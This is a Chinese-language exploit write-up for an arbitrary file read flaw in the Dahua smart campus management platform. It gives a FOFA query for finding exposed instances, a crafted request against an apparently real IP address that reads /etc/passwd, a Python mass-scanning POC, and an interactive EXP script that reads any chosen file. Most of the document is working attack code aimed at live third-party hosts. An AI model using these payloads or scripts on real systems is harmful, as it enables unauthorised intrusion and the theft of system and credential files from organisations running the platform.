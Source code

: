 # 大华智慧园区管理平台任意密码读取

## 一、 资产搜索

```
body="src=/WPMS/asset/common/js/jsencrypt.min.js"
```

## 二、找到测试地址

我们先用fofa搜到目标资产，如果我们手工去找存在漏洞的网站可能很困难，如图，十几个网站可能都是没有返回结果，要查看的文件是passwd，那我们就可以多线程判断返回结果是否有root就可以找到存在漏洞的网站

fofa资产搜索

```
body="src=/WPMS/asset/common/js/jsencrypt.min.js"
```

![image-20240903093952019](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903093952019.png)

构造的请求头

```
GET /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd HTTP/1.1
Host: 39.129.23.135:8443
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



查找漏洞的POC

```
payload = "/portal/itc/attachment_downloadByUrlAtt.action?filePath=file:/etc/passwd"
    headers = {
        "User-Agent":"Mozilla/5.0(X11;Linuxx86_64;rv: 102.0)Gecko/20100101Firefox/102.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip,deflate",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Length": "2",
    }
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,headers=headers,timeout=5)
            # print(res2.text)
            if "root" in res2.text:
                print(f"该{target}存在任意文件读取漏洞")
    except Exception as e:
        pass
```

![image-20240903095353630](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903095353630.png)

测试地址就找到了

```
https://39.129.23.135:8443
```

诡异的事情就要开始了

当我构造好请求头发包的时候，状态码居然是403，原本以为是python误报，但试了好多都是403

![image-20240903095623436](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903095623436.png)

那就拿到python中单个url测试一下，让他输出返回的内容

妙啊，出来了

![image-20240903095843927](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903095843927.png)

## 三、POC

```
def poc(target):
    payload = "/portal/itc/attachment_downloadByUrlAtt.action?filePath=file:/etc/passwd"
    headers = {
        "User-Agent":"Mozilla/5.0(X11;Linuxx86_64;rv: 102.0)Gecko/20100101Firefox/102.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip,deflate",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Length": "2",
    }
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,headers=headers,timeout=5)
            # print(res2.text)
            if "root" in res2.text:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"该{target}存在任意文件读取漏洞\n")
                    return True
                # print(res2.text)
            else:
                print(f"该{target}不存在任意文件读取漏洞")
    except Exception as e:
        print(e)
```

## 四、EXP(优化代码)

可以查看多个文件，q退出

```
def exp(target):
    print(f"该{target}存在任意文件读取漏洞")
    while True:
        payload = "/portal/itc/attachment_downloadByUrlAtt.action?filePath=file:"
        headers = {
            "User-Agent": "Mozilla/5.0(X11;Linuxx86_64;rv: 102.0)Gecko/20100101Firefox/102.0",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.",
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip,deflate",
            "Connection": "close",
            "Upgrade-Insecure-Requests": "1",
            "Content-Length": "2",
        }
        content = input("请输入要查看的文件，从/目录开始输入(q退出)\n>>>>>>>>>>>>>>>>>>>>>")
        if content == "q":
            exit()
        res1 = requests.get(url=target, verify=False, timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target + payload + content, verify=False, headers=headers, timeout=5)
            print(res2.text)
        else:
            print(f"该{content}文件不存在")
```

## 五、效果

![image-20240903101626217](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903101626217.png)

![image-20240903101717040](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903101717040.png)

![image-20240903101801095](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903101801095.png)















